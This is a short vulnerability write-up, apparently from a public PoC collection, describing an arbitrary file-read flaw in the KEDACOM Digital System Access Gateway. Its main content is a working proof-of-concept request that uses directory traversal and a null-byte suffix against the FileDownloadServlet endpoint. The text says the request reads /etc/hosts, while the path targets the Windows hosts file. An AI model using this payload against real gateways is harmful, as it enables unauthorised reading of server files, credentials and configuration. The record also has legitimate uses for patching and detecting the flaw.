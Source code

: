 # KEDACOM Digital System Access Gateway Arbitrary File Reading Vulnerability

## Vulnerability Description

KEDACOM Digital System Access Gateway There is a vulnerability to read any file on the server. The attacker can read any file on the server by constructing a request.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">KEDACOM Digital System Access Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ked-1.png)



Read /etc/hosts using POC



```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ked-2.png)
